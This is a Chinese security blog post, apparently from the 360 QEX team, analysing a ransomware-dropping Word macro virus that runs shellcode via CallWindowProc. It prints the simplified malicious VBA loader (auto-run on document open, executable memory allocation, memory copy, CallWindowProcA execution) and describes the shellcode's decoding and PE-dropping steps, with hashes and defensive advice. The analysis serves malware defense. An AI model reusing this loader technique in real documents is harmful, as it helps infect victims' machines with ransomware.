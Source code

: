 > 原文链接: https://www.anquanke.com//post/id/84433 


# CallWindowProc被宏病毒利用来执行Shellcode


                                阅读量   
                                **90651**
                            
                        |
                        
                                                                                    



[![](https://p5.ssl.qhimg.com/t01b22a309614bc6919.png)](https://p5.ssl.qhimg.com/t01b22a309614bc6919.png)

## 简述

在反病毒领域，CallWindowProc执行Shellcode的方法早在2009年就有过讨论，近期360QEX引擎团队发现有宏病毒首次使用该方法，传播敲诈者勒索软件。

常见的宏病毒释放（下载） PE 文件，并执行的方法有：

数据来源步骤：PE 数据来源网络（downloader），或数据来源自身病毒文档（dropper）；

数据执行步骤：执行 PE 使用的方式 Application.Shell 或者 Wscript.shell 或者 Win32 CreateProcess。

而最新出现的样本与上述方式方法不同，由宏代码生成内存数据（为shellcode，并非直接的 PE 文件数据），并利用CallWindowProc来执行Shellcode，由Shellcode完成后续操作。

病毒样本：

MD5: cec4932779bb9f2a8fde43cbc280f0a9

SHA256: efd23d613e04d9450a89f43a0cfbbe0f716801998700c2e3f30d89b7194aff81

## 样本详细分析

源文档宏代码被混淆，并填充了垃圾代码，对宏代码进行简化后，如下，



```
Private Declare Function VirtualAlloc Lib "kernel32" Alias "VirtualAlloc" (ByVal lpaddr As Long, ByVal dwSize As Long, ByVal flAllocationType As Long, ByVal flProtect As Long) As Long
Private Declare Function CallWindowProcA Lib "user32" Alias "CallWindowProcA" (lpPrevWndFunc As Long, hWnd As Any, Msg As Any, wParam As Any, lParam As Any) As Long
Private Declare Sub RtlMoveMemory Lib "ntdll" Alias "RtlMoveMemory" (pDst As Any, pSrc As Any, ByVal ByteLen As Long)
 
Private Sub Document_Open()
    synecdochic
End Sub
 
Sub synecdochic()
    data_raw = chalcedony.turnstile
    data_array_1 = boatswain.haircut(data_raw)
 
    #If Win64 Then
    Dim memory_base_address As LongPtr
    #Else
    Dim memory_base_address As Long
    #End If
    clethrionomys = 103 - 96 - 7
 
    hate = 42 - 58 + 4112
    memory_base_address = VirtualAlloc(clethrionomys, 4241, hate, &amp;H40)
 
    Dim document_full_name As String
    document_full_name = ActiveDocument.FullName
 
    Dim data_array_2() As Byte
    data_array_2 = data_array_1
 
    RtlMoveMemory ByVal memory_base_address, data_array_2(0), UBound(data_array_2) + 1
   
 
#If Win64 Then
memory_offset = 576
#ElseIf Win32 Then
memory_offset = 2214
#End If
 
 allmerciful = CallWindowProcA(ByVal memory_base_address + memory_offset, document_full_name, 0, 0, 0)
 
End Sub
```



分析该宏代码，得到的执行步骤有，

1、  获取窗体控件中预存的字符串数据；

2、  进行数据解码；

3、  申请内存空间，将数据以二进制形式复制到此内存空间；

4、  使用 CallWindowProc 执行 shellcode （二进制数据）。

[![](https://p5.ssl.qhimg.com/t0122b2a6f28804e4ac.png)](https://p5.ssl.qhimg.com/t0122b2a6f28804e4ac.png)

步骤 4 a) 使用 CallWindowProc 执行二进制数据

[![](https://p0.ssl.qhimg.com/t0104fc6279ce354952.png)](https://p0.ssl.qhimg.com/t0104fc6279ce354952.png)

步骤 4 b) 从Windbg 查看 CallWindowProc 调用

### Shellcode分析

二进制数据中同时存在32和64位的shellcode，32位的偏移于0x08A6，64位的偏移于0x0240处；

下面以32位版本为例分析：

首先，根据CallWindowProc调用shellcode时第二个参数为文档自身路径，Shellcode中打开文档，并在文档中寻找二进制标志串“50 4F 4C 41”，然后对标志后的0x142AC（图中硬编码）个字节进行第一次解码，解码算法是对每个字节先加3然后异或0x0D；

[![](https://p1.ssl.qhimg.com/t017a03a4c975183ca0.png)](https://p1.ssl.qhimg.com/t017a03a4c975183ca0.png)

第一次解码后的数据：

[![](https://p1.ssl.qhimg.com/t01fc1d12423e833924.png)](https://p1.ssl.qhimg.com/t01fc1d12423e833924.png)

Base 解码后的数据，从标志可以判断该二进制数据是一个PE：

[![](https://p1.ssl.qhimg.com/t01d192b3bfe57a7654.png)](https://p1.ssl.qhimg.com/t01d192b3bfe57a7654.png)

接着创建文件并写入解码后的数据，其文件路径为：

32位下："%TMP%gg771.exe"

64位下："%TMP%kt622.exe"

[![](https://p1.ssl.qhimg.com/t01c9a16d8d9e13c3c5.png)](https://p1.ssl.qhimg.com/t01c9a16d8d9e13c3c5.png)

文件释放完成后，调用API CreateProcessA创建进程：

[![](https://p4.ssl.qhimg.com/t0160955bc7054beba4.png)](https://p4.ssl.qhimg.com/t0160955bc7054beba4.png)

释放的PE文件MD5为： cc05867751b1de3cab89c046210faed4。

## 安全建议

鉴于近期宏病毒变种多携带敲诈者病毒通过垃圾邮件传播，更新频繁，影响恶劣，360安全专家建议用户打开杀毒软件实时防护，不随意点击垃圾邮件中的链接和附件。

## 参考：

1、[https://github.com/decalage2/oletools](https://github.com/decalage2/oletools)

2、[http://www.freebuf.com/articles/web/11662.html](http://www.freebuf.com/articles/web/11662.html)

3、http://m.2cto.com/kf/200908/40688.html

4、[https://msdn.microsoft.com/en-us/library/windows/desktop/ms633571(v=vs.85).aspx](https://msdn.microsoft.com/en-us/library/windows/desktop/ms633571(v=vs.85).aspx)

